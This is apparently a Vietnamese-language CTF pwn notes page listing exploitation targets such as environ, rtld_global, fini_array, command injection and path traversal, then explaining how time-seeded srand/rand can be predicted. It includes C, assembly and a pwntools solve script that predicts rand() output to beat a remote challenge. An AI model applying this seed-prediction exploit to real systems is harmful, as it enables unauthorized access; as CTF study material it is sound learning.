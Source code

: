 # Other Attack

- &environ
- rtld_global
- Canary global TLS
- fini_array
- Type Error
- Command Injection
- Path Traversal
- OTHER LOGIC BUG: seed, permission, ...
    * __RANDOM => seed__: dùng seed có giá trị là thời gian thực lúc chạy chương trình, vì vậy tạo 1 script chạy cùng là xong

    * Nhiệm vụ của srand(x) đưa ra seed x rồi rand() dựa vào x đưa ra số a. Khi đó a là seed cho lần gọi rand() tiếp theo (cứ như thế tiếp tục). Do vậy VD trong vòng lặp thời gian 1 giây rand() dùng seed cũ liên tục nên nó không bao giờ ra số khác nhau trong khoảng thời gian đó.

    * VD: [Meshuggah](https://qbao.home.blog/2020/04/30/start-to-pwnb01lers-ctf/) .
    ```asm
    asm:
        mov edi, 0      ; time
        call _time
        add eax, 2
        mov edi, eax    ; seed
        call _srand
    ```

    ```C
    int main(){
        int seed = time(0) + 2;
        srand(seed);
        for(int i = 0; i < 100; i++)
            printf("%d\n", rand());
        return 0;
    }
    ```

    ```python
    from ctypes import CDLL
    from ctypes.util import find_library

    libc = CDLL(find_library("c"))

    libc.srand(0x5a35b162)
    print(libc.rand(), libc.rand(), libc.rand())
    ```
```python
#!/usr/bin/env python3
from pwn import *
import random
import time
import calendar
import datetime
from ctypes import *
import random
elf = ELF("./random")
libc = CDLL("/usr/lib/x86_64-linux-gnu/libc.so.6")
# p = elf.process()
p = remote("challs.tfcctf.com", "32615")
context.update(binary=elf, log_level="DEBUG")
# gdb.attach(p, '''
# 	b *vuln
# 	''')

current_GMT = time.gmtime()
time_stamp = calendar.timegm(current_GMT)
libc.srand(time_stamp)
print(p.recvline())
for i in range(10):
    number = libc.rand()
    p.sendline(str(number).encode())


p.interactive()
```


